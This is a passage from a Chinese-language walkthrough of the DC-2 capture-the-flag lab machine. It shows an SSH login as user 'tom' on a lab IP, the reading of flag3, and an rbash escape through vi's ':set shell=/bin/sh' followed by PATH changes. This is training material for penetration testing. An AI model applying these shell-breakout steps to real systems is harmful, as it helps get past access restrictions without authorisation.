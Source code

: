         If you can't exploit WordPress and take a shortcut, there is another way.
        
        Hope you found another entry point.
        ```
        
        `jerry`的`email`  jerry@notreallyanywhere.net
        
    - `tom` 的后台
        
        没有可利用的
        
4. 根据 `Hope you found another entry point.` ，因为`7744`端口是`ssh`，使用这两个用户尝试登录
    - 使用tom登陆成功，获得shell
        
        ```sql
        ssh tom@192.168.75.157 -p 7744
        tom@192.168.75.157's password: 
        
        The programs included with the Debian GNU/Linux system are free software;
        the exact distribution terms for each program are described in the
        individual files in /usr/share/doc/*/copyright.
        
        Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
        permitted by applicable law.
        tom@DC-2:~$ 
        ```
        
    - 当前目录下下存在 `flag3.txt` ,发现 `vim` `cat` `more` 等命令是使用不了的，用的是 `vi`
        
        ```sql
        Poor old Tom is always running after Jerry. Perhaps he should su for all the stress he causes.
        ```
        
    - 查看`tom`可以使用的命令
        
        ```sql
        tom@DC-2:~$ ls -al usr/bin
        //
        lrwxrwxrwx 1 tom tom   13 Mar 21  2019 less -> /usr/bin/less
        lrwxrwxrwx 1 tom tom    7 Mar 21  2019 ls -> /bin/ls
        lrwxrwxrwx 1 tom tom   12 Mar 21  2019 scp -> /usr/bin/scp
        lrwxrwxrwx 1 tom tom   11 Mar 21  2019 vi -> /usr/bin/vi
        ```
        
    - 根据 `flag3`的提示
        
        ```sql
        Poor old Tom is always running after Jerry. Perhaps he should su for all the stress he causes.
        ```
        
        提示 `su for ..`
        
        因为我们的`shell`是`rbash` ，所以可能是`rbash`逃逸
        
        ```sql
        vi flag3.txt
        
        :set shell=/bin/sh
        :shell
        //进入shell
        //然后设置命令，不然就那几个
        export PATH=$PATH:/bin/
        export PATH=$PATH:/usr/bin/
        //env 查看环境变量
        ```
        